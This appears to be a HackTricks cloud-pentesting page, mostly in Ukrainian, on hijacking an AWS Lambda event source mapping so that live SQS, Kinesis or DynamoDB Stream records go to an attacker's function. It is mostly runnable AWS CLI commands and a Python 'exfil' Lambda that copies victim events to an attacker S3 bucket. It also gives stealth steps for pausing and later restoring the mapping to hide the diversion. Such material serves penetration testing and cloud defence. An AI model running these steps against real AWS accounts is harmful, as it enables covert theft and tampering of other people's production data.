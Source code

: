 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

{{#include ../../../../banners/hacktricks-training.md}}

Зловживання `UpdateEventSourceMapping` для зміни цільової функції Lambda існуючого Event Source Mapping (ESM), так щоб записи з DynamoDB Streams, Kinesis або SQS доставлялися до attacker-controlled function. Це непомітно перенаправляє живі дані без втручання у producer apps або початковий код функції.

## Impact
- Перенаправляти та читати живі записи з існуючих streams/queues без зміни producer apps або victim code.
- Можлива data exfiltration або підміна логіки через обробку трафіку victim у rogue function.

## Required permissions
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Ability to deploy or reference an attacker-controlled Lambda (`lambda:CreateFunction` or permission to use an existing one).

## Steps

1) Enumerate event source mappings for the victim function
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].EventSourceArn' --output text)
```
2) Підготуйте Lambda-приймач під контролем атакуючого (той самий регіон; бажано з подібним VPC/runtime)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
print(json.dumps(event)[:3000])
b = os.environ.get('EXFIL_S3')
if b:
k = f"evt-{int(time.time())}.json"
boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
--function-name ht-esm-exfil \
--runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
--handler exfil.lambda_handler --zip-file fileb://exfil.zip \
--query FunctionArn --output text)
```
3) Перенаправити mapping на функцію зловмисника
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```
4) Згенеруйте подію на джерелі, щоб mapping спрацював (наприклад: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```
5) Перевірте, що attacker function отримує пакет
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```
6) Необов'язковий stealth
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```
Примітки:
- Для SQS ESMs роль виконання Lambda, що обробляє чергу, повинна мати `sqs:ReceiveMessage`, `sqs:DeleteMessage` та `sqs:GetQueueAttributes` (керована політика: `AWSLambdaSQSQueueExecutionRole`).
- ESM UUID залишається тим самим; змінюється лише його `FunctionArn`, тому producers і source ARNs залишаються без змін.

{{#include ../../../../banners/hacktricks-training.md}}
